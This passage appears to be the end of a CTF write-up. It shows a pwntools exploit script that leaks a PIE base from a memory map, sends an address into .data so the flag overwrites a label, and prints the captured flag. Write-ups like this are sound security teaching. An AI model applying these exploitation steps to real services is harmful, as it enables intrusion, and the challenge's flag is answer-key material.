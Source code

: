 ```python
pieend = int(maps[13:-48], 16)

info("Pie base: %#x", piebase)
info("Pie end: %#x", pieend)
io.recvuntil(b'expire\n')

# Send address of label in .data, it will be overwritten with flag
# Then on the next iteration of the loop, it will print
io.sendline(hex(piebase + data_string_offset).encode() + b' 127')

# Flag plz
warning(io.recv().decode())
```
{% endcode %}

We run the script and get the flag.

Flag:`CTF{Y0ur_j0urn3y_is_0n1y_ju5t_b39innin9}`
